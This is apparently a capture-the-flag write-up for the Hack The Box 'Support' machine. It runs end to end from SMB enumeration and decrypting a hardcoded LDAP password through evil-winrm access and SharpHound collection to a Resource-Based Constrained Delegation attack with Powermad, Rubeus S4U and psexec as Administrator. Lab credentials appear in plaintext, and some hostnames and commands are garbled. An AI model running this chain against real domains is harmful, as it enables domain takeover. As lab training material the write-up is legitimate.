







# Enumeration

Running nmap on the machine, we got

```bash
nmap -sC -sV -oA nmap/support 10.10.11.17
```



Added it to our hosts file

```bash
echo "10.10.11.174 support.htb0" | sudo tee -a /etc/hosts
```

Using smbclient, access the machine

```bash
smbclient -L \support.htb0smbclient \support.htb0\support-tools
```

mget Userinfo.exe.config and unzip it into the attacker's machine

```bash
unzip UserInfo.exe.config
```

We need to decompile it using ILSpy which is downloadable through this link

```bash
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
```

Open the file UserInfo.exe.config and analyze it in ILSpy. Navigate to UserInfo.Services > Protected



This is how they encrypt the password using the key "armando"

### Key Points:
- **XOR Logic**: The ^ operator performs a bitwise XOR. XORing the same value twice restores the original data:
  - `a ^ b ^ b = a`.
- **Key Cycling**: `key[i % key.Length]` allows the key to "wrap around" when the password bytes exceed the key length.
- **Obfuscation**: The combination of Base64 encoding and XOR operations makes the password harder to discover.

### Summary:
The code takes an obfuscated password (enc_password), applies Base64 decoding and a custom XOR-based decryption using the key "armando", and returns the original password as a string. This approach is a simple, custom encryption/decryption method.

Using a Python script, we were able to decrypt the password:

```python
import base64
# Encoded password and key
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"
# Step 1: Base64 decode
decoded_bytes = base64.b64decode(enc_password)
# Step 2: XOR decryption logic
key_bytes = key.encode('ascii')
decrypted_bytes = bytearray()
for i in range(len(decoded_bytes)):
    # Perform XOR operation as in the code: array[i] ^ key[i % key.Length] ^ 0xDF
    decrypted_byte = (decoded_bytes[i] ^ key_bytes[i % len(key_bytes)]) ^ 0xDF
    decrypted_bytes.append(decrypted_byte)
# Step 3: Convert the result to a string
try:
    password = decrypted_bytes.decode('utf-8')  # Decode as UTF-8
    print("Recovered Password:", password)
except UnicodeDecodeError:
    print("Failed to decode decrypted bytes. Output may be binary:", decrypted_bytes)

```

```bash
python3 recoverpass.py 
Recovered Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

**creds**:
```plaintext
support//ldap:0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Exploitation

Now that we got credentials, we try to search in to the machine using ldap. 
ldapsearch didn't work on mine so I used impacket-GetADUser instead

```bash
impacket-GetADUsers -all support.htb/ldap -dc-ip support.htb0
```


Instead of ldapsearch or impacket, use Apache Directory Studio so we can have a better view of the AD

```bash
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
```

```bash
sudo gunzip
sudo tar -xvf
./Apache-Directory-Studio
```

Connect to the AD using ldap user creds:
- Bind DN: ldap@support.htb
- Password: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`



Got the following creds of support user

```plaintext
support:Ironside47pleasure40Watchful
```

Establish a shell using evil-winrm

```bash
evil-winrm -i support.htb0 -u support -p Ironside47pleasure40Watchful
```

## Privilege Escalation

Check if the machine is a DC:

```powershell
Get-ADDomain
InfrastructureMaster               : dc.support.htb
```

Identify if the user is a member of any groups:

```powershell
whoami /groups
```

Going back to our attacker's machine, we need to install Bloodhound to identify possible attack paths:

```bash
sudo apt install -y neo4j 
sudo neo4j start
```

Download Bloodhound from here:

```bash
wget https://github.com/SpecterOps/BloodHound-Legacy/releases/download/v4.3.1/BloodHound-linux-x64.zip
```

Unzip the file and run Bloodhound:

```bash
./BloodHound --no-sandbox
```

Need to change the password at http://localhost:7474:
- creds: neo4j:[insert your password]

We will upload sharphound.exe to the victim's machine to gather AD data.

BloodHound > Collectors 

Set up an HTTP server:

```bash
python3 -m http.server
```

Now in the evil-winrm session of the victim's machine, fetch the SharpHound.exe:

```powershell
curl -o SharpHound.exe http://10.10.14.6:8000/SharpHound.exe
```

or open Evil-WinRM in the directory of Bloodhound > Collectors and upload SharpHound.exe.

Now execute to the victim's once it is uploaded:

```powershell
./SharpHound.exe
```

It will gather the data and generate a .zip file that we need to download into attacker's machine.
Re-open Evil-WinRM into the home folder so permissions won't mess up with the download.

Once downloaded, we need only drag and drop the zip file into the BloodHound window to load the acquired data.

We saw that support user is a member of SHARED SUPPORT ACCOUNTS@SUPPORT.HTB which has a direct link with the DC.SUPPORT.HTB

### RBCD Attack
In a nutshell, the Resource-Based Constrained Delegation (RBCD) attack works like this:
1. **Step 1** – Add Fake Computer to the Domain: The attacker controls a computer (let’s call it $FAKE-COMP01) and adds it to the domain.
2. **Step 2** – Set Up the Fake Computer to Act on Behalf of the Domain Controller (DC).
3. **Step 3** – Generate Kerberos Tickets: The attacker requests Kerberos tickets for $FAKE-COMP01.
4. **Step 4** – Impersonate a Privileged User: The attacker uses Pass-the-Ticket (PtT) to authenticate as a privileged user, like the Administrator.

We need to verify that msds-allowedtoactonbehalfofotheridentity attribute is empty. We need to upload PowerView.ps1 to the victim using evil-winrm.

Find it:

```bash
find / 2>/dev/null | grep PowerView.ps1
```

Copy it to directory in where you open evil-winrm session:

```bash
cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ~/HTB/Support/PowerView.ps1
```

Upload it to the victim using our evil-winrm session:

```bash
upload PowerView.ps1
```

Upload Powermad.ps1 as well from [here](https://github.com/Kevin-Robertson/Powermad) and Upload Rabeus.exe:


Now in the victim's machine:

```powershell
Import-Module .\Powermad.ps1
```



Now we see that we can create new computers since our machineaccountquota is 10.

### Creating Fake Machine
```powershell
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

**creds**:
```plaintext
FAKE-COMP01:Password123
```

Now we configure the Resource-Based Constrained Delegation:

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

Verify it:

```powershell
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```

### Perform S4U Attack
This attack will allow us to acquire the Kerberos ticket on behalf of the Administrator.

Use Rubeus:

```powershell
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Get the value of rc4_hmac and generate Kerberos ticket for the administrator:

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

Grab the last ticket (Base64) for the Administrator and save it as ticket.kirbi.b64 in our attacker's machine.



Now decode the file:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

Convert the ticket.kirbi to ticket.cache:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Using the ticket.cache, we login to the machine as Admin via impacket's psexec:

```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

